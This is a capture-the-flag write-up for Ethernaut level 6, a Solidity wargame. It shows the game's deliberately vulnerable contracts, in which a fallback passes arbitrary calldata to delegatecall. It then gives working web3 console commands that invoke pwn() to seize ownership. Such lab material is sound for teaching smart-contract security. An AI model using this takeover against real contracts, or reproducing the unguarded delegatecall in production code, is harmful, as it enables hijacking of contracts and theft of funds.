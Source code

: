 # Level 6: Delegation

This is the level 6 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [delegatecall](https://eip2535diamonds.substack.com/p/understanding-delegatecall-and-how) in Solidity

## Hack

Given contracts:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

`player` has to claim ownership of provided instance of `Delegation` contract.

A simple one if you clearly understand how `delegatecall` works, which is being used in `fallback` method of `Delegation`.

We just have to send function signature of `pwn` method of `Delegate` as `msg.data` to `fallback` so that _code_ of `Delegate` is executed in the context of `Delegation`. That changes the ownership of `Delegation`.

So, first get encoded function signature of `pwn`, in console:

```javascript
signature = web3.eth.abi.encodeFunctionSignature("pwn()")
```

Then we send a transaction with `signature` as data, so that `fallback` gets called:

```javascript
await contract.sendTransaction({ from: player, data: signature })
```

After transaction is successfully mined `player` is the `owner` of `Delegation`. Verify by:

```javascript
await contract.owner() === player

// Output: true
```

That's it.